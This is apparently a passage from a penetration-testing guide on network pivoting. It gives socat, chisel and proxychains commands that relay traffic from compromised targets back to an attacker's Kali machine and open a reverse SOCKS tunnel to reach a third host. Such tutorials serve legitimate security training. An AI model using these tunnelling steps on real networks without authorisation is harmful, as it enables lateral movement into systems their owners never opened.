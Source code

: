 ```bash
echo "socks5 127.0.0.1 5555" >> /etc/proxychains4.conf #it adds IP and port in listening mode on chisel attacker machine
```

<div align="left"><figure><img src="../../../../.gitbook/assets/image (57).png" alt=""><figcaption><p>/etc/proxychains4.conf</p></figcaption></figure></div>

{% hint style="info" %}
If we'll give an error during next connections, we need to insert line to the top line of the previous request (as photo) or if "dynamic\_chain" option is commented out and strict\_chain" option is uncommented.
{% endhint %}

Execute socat on target 1 using a different port on listening and attacker machine IP and Port:

```bash
#Target 1
./socat tcp-l:2222,fork,reuseaddr tcp:<kali_nat1>:111 #tcp-l: listening port, send data to tcp:attacker:port
```

while we execute chisel on target 2 (using Target 1's IP of 2nd net interface in common between target 1 and 2, in addition we specify proxychains socks port: with R:5555:socks):

```bash
#Target 2
./chisel client <t1_nat2>:2222 R:5555:socks
```

well done, we obtained a new session tunnel on Kali:

<div align="left"><figure><img src="../../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure></div>

Now, we've visibility with the target 3.

```bash
#Kali
proxychains curl <t3_nat3>
```

<div align="left"><figure><img src="../../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure></div>
